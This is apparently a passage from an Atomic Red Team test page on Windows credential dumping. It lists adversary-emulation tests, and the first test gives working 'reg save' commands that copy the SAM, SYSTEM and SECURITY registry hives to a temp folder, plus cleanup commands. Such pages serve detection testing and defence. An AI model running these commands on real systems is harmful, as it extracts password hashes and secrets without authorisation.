 - [Atomic Test #6 - dump volume shadow copy hives with System.IO.File](#atomic-test-6---dump-volume-shadow-copy-hives-with-systemiofile)

- [Atomic Test #7 - WinPwn - Loot local Credentials - Dump SAM-File for NTLM Hashes](#atomic-test-7---winpwn---loot-local-credentials---dump-sam-file-for-ntlm-hashes)


<br/>

## Atomic Test #1 - Registry dump of SAM, creds, and secrets
Local SAM (SAM & System), cached credentials (System & Security) and LSA secrets (System & Security) can be enumerated
via three registry keys. Then processed locally using https://github.com/Neohapsis/creddump7

Upon successful execution of this test, you will find three files named, sam, system and security in the %temp% directory.

**Supported Platforms:** Windows


**auto_generated_guid:** 5c2571d0-1572-416d-9676-812e64ca9f44






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg save HKLM\sam %temp%\sam
reg save HKLM\system %temp%\system
reg save HKLM\security %temp%\security
```

#### Cleanup Commands:
```cmd
del %temp%\sam >nul 2> nul
del %temp%\system >nul 2> nul
del %temp%\security >nul 2> nul
```





<br/>
<br/>

## Atomic Test #2 - Registry parse with pypykatz
Parses registry hives to obtain stored credentials

**Supported Platforms:** Windows


**auto_generated_guid:** a96872b2-cbf3-46cf-8eb4-27e8c0e85263

